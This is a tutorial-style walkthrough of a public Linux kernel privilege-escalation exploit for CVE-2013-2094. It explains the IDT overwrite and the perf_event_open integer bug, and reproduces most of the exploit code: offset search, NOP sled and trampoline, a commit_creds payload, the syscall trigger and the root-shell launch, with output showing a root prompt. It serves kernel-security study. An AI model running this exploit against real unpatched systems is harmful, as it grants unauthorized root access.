


# Kernel IDT priviledge escalation

This article presents how to achieve a privilege escalation by overwriting IDT structure. The presented technique is based on the known CVE-2013-2094. The walkthrough and explanation is based on the available exploit written by Vitaly Nikolenko for x86_64 architecture. <https://www.exploit-db.com/exploits/33589>

I decided to document the technique mainly for my own purposes to learn more about kernel hacking mainly as a follow-up of the course I recently took. 

## IDT - Interrupt Descriptor Table

IDT is a structure in kernel that is used for interrupts handling. Whenever there is an interrupt requested, kernel is checking for the interrupt number and invokes matching interrupt handler. 

The IDT address is stored in the CPU register and can be easily retrieved with the **sidt** instruction that can be called from the userspace. The instruction returns 10 bytes (on 64 bits architecture) IDTR structure: 8 bytes base and 2 bytes limit value. 

```c
struct {
	uint16_t limit;
	uint64_t addr;
} __attribute__((packed)) idt;

asm volatile("sidt %0" : "=m" (idt));
```

The inline assembly syntax stores the result of the sidt to idt. 
Reading the idt.addr returns the base address of the IDT. Screenshot below presents the example of IDT array.  



The IDT[x] entry, where x is the interrupt number, holds information about the address of the handler for the requested interrupt. The entry in the IDT is of the following format:



Therefore, the handler address is composed of `Offset 15..0 + Offset 31..16 + Offset 63..32`.  

```
0xffffffff81dd6000:	0x00108120	0x816a8e00  0xffffffff  0x00000000

0x00000000 --> Reserved
0xffffffff --> Offset 63..32
0x816a	   --> Offset 31..16
0x8e00     --> Flags
0x0010     --> Segment selector
0x8120     --> Offset 15..00

IDT[0] handler address = 0xffffffff816a8120

(gdb) x/32x 0xffffffff816a8120
0xffffffff816a8120 <divide_error>:	0xff6a0000441f0f66	0xff6f8fe878ec8348
0xffffffff816a8130 <divide_error+16>:	0x75e8f631e78948ff	0xffff7020e9ff96cb
0xffffffff816a8140 <overflow>:	0xff6a0000441f0f66	0xff6f6fe878ec8348
0xffffffff816a8150 <overflow+16>:	0x05e8f631e78948ff	0xffff7000e9ff96cc
```

The IDT[0] handler address is in kernel space. Now comes the interesting part. The part of the address that determines if it's the kernel space or user space is stored in the `&IDT[x]+0x08 --> 0xffffffff`. It's a 4 byte value. Notice that if we add +1 to 0xffffffff (interpreted as unsigned int) it will overflow and wrap to 0x00000000. Now, the handler address would be 0x00000000816a8120 pointing to the user space. This concept is presented on the example of the vulnerability published in CVE-2013-2094.  

## CVE-2013-2094 

> The perf\_swevent\_init function in kernel/events/core.c in the Linux kernel before 3.8.9 uses an incorrect integer data type, which allows local users to gain privileges via a crafted perf\_event\_open system call.

That's the formal description of the vulnerability as it was published. Not too much information.  The CVE mentiones perf\_swevent\_init function so let's take a look:

```c
static int perf_swevent_init(struct perf_event *event)
{
	int event_id = event->attr.config;

	if (event->attr.type != PERF_TYPE_SOFTWARE)
		return -ENOENT;

	/*
	 * no branch sampling for software events
	 */
	if (has_branch_stack(event))
		return -EOPNOTSUPP;

	switch (event_id) {
	case PERF_COUNT_SW_CPU_CLOCK:
	case PERF_COUNT_SW_TASK_CLOCK:
		return -ENOENT;

	default:
		break;
	}

	if (event_id >= PERF_COUNT_SW_MAX)
		return -ENOENT;

	if (!event->parent) {
		int err;

		err = swevent_hlist_get(event);
		if (err)
			return err;

		static_key_slow_inc(&perf_swevent_enabled[event_id]);
		event->destroy = sw_perf_event_destroy;
	}

	return 0;
}
```
The function takes pointer to the perf\_event structure as an argument. At the beginning the attr.config value is assigned to the event\_id variable. Further down the code there are few checks for the correctness of the received data. Next, static\_key\_slow\_inc() function is invoked. The function simply increments value by 1 on the memory address passed as an argument.  

Let's take a closer look at the actual perf\_event structure.  

```c
(gdb) p sizeof(struct perf_event)
$13 = 824
```

It's quite large but one of the referenced elements in above code is attr member, which is a structure iself `struct perf_event_attr attr;`.  


```c
(gdb) ptype struct perf_event_attr
type = struct perf_event_attr {
    __u32 type;
    __u32 size;
    __u64 config;
```

In the perf\_swevent\_init() function the attr->config of type **unsigned long** is assigned to the **int** variable event_id. This operation has following consequences:  

* the value from __u64 will be casted to int by removing 32 most significant bits. 
* The value of unsigned type will be interpreted as signed.  

Therefore, if config would have a value of 0xffffffffffffffff, after passing it to an int event_id it is 0xffffffff which is interpreted as -1. It satisfies the check as -1 >=PERF\_COUNT\_SW\_MAX

```c
if (event_id >= PERF_COUNT_SW_MAX)
	return -ENOENT;
```

and continues to

```c
static_key_slow_inc(&perf_swevent_enabled[event_id]);
event->destroy = sw_perf_event_destroy;
```

Here the event\_id is used as an array element. Before it can be used for indexing it would be internally signed extended to signed long (64 bits). Therefore value of 0xffffffff --> 0xffffffffffffffff. The memory address is passed to the static\_key\_slow\_inc() function which incremenets that memory value by 1. Now, if attacker would pass the event_id value that would point to the `&IDT[x]+0x08` (IDT Offset 63..32) the function would increment the value and wrap it to 0x00000000. It would result in the IDT handler pointing to user space. Hurray!  


Notice the last step `event->destroy = sw_perf_event_destroy;`. It will perform atomic decrement on `static_key_slow_dec(&perf_swevent_enabled[event_id]);`. However, this time the `u64 event_id = event->attr.config;` has a valid type. Nevertheless, if large number will be passed it will perform a decrement on some memory address. To make sure the program doesn't page fault the memory region is mmaped:  


```c
#define BASE  0x1780000000
#define SIZE  0x0010000000

// mmap user-space block so we don't page fault
// on sw_perf_event_destroy
assert((map = mmap((void*)BASE, SIZE, 3, 0x32, 0,0)) == (void*)BASE);
memset(map, 0, SIZE);

``` 

## Exploit

I use exploit published on exploit-db by Vitaly Nikolenko as the explanation of the process.

### Finding correct values

As the first step, the value used for the attr.config needs to be identified. 

```c
// can only play with interrupts 3, 4 and 0x80
	for (int_n = 3; int_n <= 0x80; int_n++) {
		for (off64 = 0x00000000ffffffff; (int)off64 < 0; off64--) {
			int off32 = off64;
	
			if ((targets[target][0] + ((uint64_t)off32)*24) == (idt.addr + int_n*16 + 8)) {
				offset = off32;
				goto out;
			}
		}
		if (int_n == 4) {
			// shit, let's try 0x80 if the kernel is compiled with
			// CONFIG_IA32_EMULATION
			int_n = 0x80 - 1;
		}
	}
out:
	assert(offset);
```

The comment in line 1 explains that interrupts 0x03, 0x04 and 0x80 are the best candidates as there is a high chance that they won't be used by the system so won't interfere.  

Line 3: iterate through all negative numbers, starting from -1 and decreasing with each loop. `(int)off64 < 0` ensures that only negative numbers are accepted. This is to fulfil the check of PERF\_COUNT\_SW\_MAX.  

Line 6: `targets[target][0]` is the base address of perf\_swevent\_enabled array. It will be different per kernel version but can be easily retrieved with gdb  

```
(gdb) x perf_swevent_enabled
0xffffffff81ef5940 <perf_swevent_enabled>:	0x00000000

(gdb) p sizeof(perf_swevent_enabled[0])
$18 = 24
```

`0xffffffff81ef5940 + ((uint64_t)off32)*24)`: the size of the element is 24 bytes so that is also the increment size for each iteration.

`(idt.addr + int_n*16 + 8)`: idt.addr is the base of the IDT array. 16 is the size of IDT[x] and +8 is the offset to the Offset63..32. 

In summary: `(targets[target][0] + ((uint64_t)off32)*24) == (idt.addr + int_n*16 + 8)` is finding the value that will point to the IDT of n-th interrupt that can be increment resulting in the wrap. This memory address will be used later to call a syscall which will exploit the vulnerability.

### Return to userspace
 
Let's assume that previous loop found the pointer to the IDT structure that has the handler at 0xffffffff816a8140. After triggering the exploit the handler address will be 0x00000000816a8140. Now it points to user space. The next step would be to copy the exploit code there. However, before any operation can be performed on that address the page has to be mmapp'ed.  
To be on a safe side it is better to mmap large memory region so it covers maximum number of possible addresses. `kbase = idt.addr & 0xff000000;` would be a good base for the mmap and `KSIZE=0x2000000` should be enough. For example, if idt.addr would be 0xffffffff81dd6000 masking it with 0xff000000 results in a base of 0x81000000. 

```c
assert((code = (void*)mmap((void*)kbase, KSIZE, 7, 0x32, 0, 0)) == (void*)kbase);
memset(code, 0x90, KSIZE); code += KSIZE-1024; memcpy(code, &payload, 1024);
memcpy(code-13,"\x0f\x01\xf8\xe8\5\0\0\0\x0f\x01\xf8\x48\xcf", 13);
```

Line 2: the newly mmaped memory region is filled with nops (0x90) first. Secondly, the payload is copied into the last page (1024) of that memory region. It ensures that we can land anywhere in that region and the payload will be executed after the sled.  
Line 3: just before the payload 13 bytes of the trampoline is added. The purpose of it is to transition the execution from a userspace to kernelspace, jump to the payload and return from the syscall back to the userspace.

### Payload

The payload has 2 objectives. First, restore the IDT handler address. Second, elevate privileges with commit\_creds() technique. 
Line 14: the fixptr pointer holds a placeholder value. This value is searched for in a loop in line 24. The loop goes 3 times. Each time is calculates a placeholder value (line 25) and searches for it in the code section - the payload. Once the placeholder is found, it is being replaced with an address of the IDT offset address that was overflown earlier. As fixptr address now points to the IDT, the address can be restored by writing -1 to it (0xffffffff).  
Another 2 placeholders are marked to be replaced with addresses of commit\_creds and prepare\_kernel\_cred that are specific to each kernel version. Once all this is fixed and assigned, the commit\_creds() function is called with a NULL value. It updates the credentials set in the current task to the new value. In this case NULL. 

```c
uint64_t targets[3][3] =
            {{0xffffffff81ef67e0,  // perf_swevent_enabled
              0xffffffff81091630,  // commit_creds
              0xffffffff810918e0}, // prepare_kernel_cred
             
/.../

#define AB(x) ((uint64_t)((0xababababLL<<32)^((uint64_t)((x)*313337))))

typedef int __attribute__((regparm(3))) (*commit_creds_fn)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (*prepare_kernel_cred_fn)(unsigned long cred);

void __attribute__((regparm(3))) payload() {
	uint32_t *fixptr = (void*)AB(1);
	// restore the handler
	*fixptr = -1;
	commit_creds_fn commit_creds = (commit_creds_fn)AB(2);
	prepare_kernel_cred_fn prepare_kernel_cred = (prepare_kernel_cred_fn)AB(3);
	commit_creds(prepare_kernel_cred((uint64_t)NULL));
}

/.../

	for (j = 0; j < 3; j++) {
		needle = AB(j+1);
		assert(p = memmem(code, 1024, &needle, 8));
		*p = !j ? (idt.addr + int_n * 16 + 8) : targets[target][j];
	}
	
```
Below is the assembly of the payload including the trampoline. First the swapgs instruction is executed to prepare for the execution of the kernel data, then the execution jumps to the actual payload. After the payload is finished, swapgs restores value and iretq instruction is used to return to userspace. 

```
(gdb) x/32x 0x83000000-1037
0x82fffbf3:	0xe8f8010f	0x00000005	0x48f8010f	0xffffb8cf
0x82fffc03:	0xf9a3ffff	0xab0004c7	0x48ababab	0xfc24448d

(gdb) x/16i 0x83000000-1037
   0x82fffbf3:	swapgs
   0x82fffbf6:	callq  0x82fffc00
   0x82fffbfb:	swapgs
   0x82fffbfe:	iretq
   0x82fffc00:	mov    $0xffffffff,%eax
   0x82fffc05:	movabs %eax,0xabababab0004c7f9
   0x82fffc0e:	lea    -0x4(%rsp),%rax
   0x82fffc13:	and    $0xffffffffffffe000,%rax
   0x82fffc19:	mov    (%rax),%rax
   0x82fffc1c:	mov    0x458(%rax),%rax
   0x82fffc23:	movl   $0x0,0x4(%rax)
   0x82fffc2a:	movl   $0x0,0x8(%rax)
   0x82fffc31:	movl   $0x0,0xc(%rax)
   0x82fffc38:	retq
```


### Exploitation

In order to exploit the vulnerability the attacker has to force the system to execute the vulnerable function perf\_swevent\_init(). This function is actually invoked by a syscall sys\_perf\_event\_open, which is a syscall number 298. `syscall(298) -> sys\_perf\_event\_open -> perf\_swevent\_init`

Function prototype:

```c
(gdb) ptype sys_perf_event_open
type = long (struct perf_event_attr *, pid_t, int, int, unsigned long)
```

The function takes a perf\_event\_attr structure that we have to prepare. This structure will be used by a vulnerable perf\_swevent\_init(). Therefore, it's crucial to put the `__u64 config` value to the memory address that we want to increment. 

```c
void trigger(uint32_t off) {
	uint64_t buf[10] = { 0x4800000001, off, 0, 0, 0, 0x300 };
	int fd = syscall(298, buf, 0, -1, -1, 0);
	assert( !close(fd) );
}
```

After calling a trigger() function the vulnerability has been exploited, the kernel structures overwritten and prepared for the privilege escalation. 

### Privilege escalation

The IDT structure has been overwritten. It is now ready to trigger an interrupt with a number of the IDT[x] element. Kernel will execute the code that the handler points to. This is the payload that will overwrite privileges to 0.  

```c
switch (int_n) {
case 3:
	asm volatile("int $0x03");
	break;
case 4:
	asm volatile("int $0x04");
	break;
case 0x80:
	asm volatile("int $0x80");
}

assert(!setuid(0));
return execl("/bin/bash", "-sh", NULL);
```

setuid(0) is called to finalise the privilege escalation process. As a last step bash is invoked with root privileges. 

```bash
x@ubuntu:~$ uname -a
Linux ubuntu 3.5.0-23-generic #35~precise1-Ubuntu SMP Fri Jan 25 17:13:26 UTC 2013 x86_64 x86_64 x86_64 GNU/Linux
x@ubuntu:~$ ./perf 2
IDT addr = 0xffffffff81dd6000
code = 82fffc00

Using int = 4 with offset = -49077
-sh-4.2#
```

memory view:  

```
                   +-------------------------+ 0xffffffffffffffff
                   |                         |
                  ++-------------------------++
int 0x04 +------> | IDT[4]|-----|             |
                  ++-------------------------++0xffffffff81dd6000
                   |            |            |
                   |            |            |
                   |            |            |
                   |            |            |
                   |            |            |
                 +-----------------------------+  0x00007fffffffffff
                   |            |            |
                   |            |            |
                   |            |            |
                   |            |            |
                   |            |            |
                   |            |            |
                   |            |            |
                m ++-------------------------++ 0x1790000000
                a |             |             |
                p |             |             |
                  ++-------------------------++ 0x1780000000
                   |            |            |
                   |            |            |
                   |            |            |
                   |            |            |
                   |            |            |
                c ++------------v------------++ 0x83000000
                o |        TRAMPOLINE|PAYLOAD |
                d |                           |
                e ++-------------------------++ 0x81000000
                   |                         |
                   +-------------------------+ 0x0000000000000000

```


## Additional resources
1. Exploit by Vitaly Nikolenko <https://www.exploit-db.com/exploits/33589>
2. Red Hat Bugzilla <https://bugzilla.redhat.com/show_bug.cgi?id=962792#c0>
3. SIDT instruction information <https://www.felixcloutier.com/x86/sidt>
4. Interrupts <http://ethv.net/workshops/osdev/notes/notes-3>
5. Syscalls <https://filippo.io/linux-syscall-table/>
6. <http://timetobleed.com/a-closer-look-at-a-recent-privilege-escalation-bug-in-linux-cve-2013-2094/>
7. GDB hacks <http://web.eecs.utk.edu/~mrjantz/GDBLab.pdf>
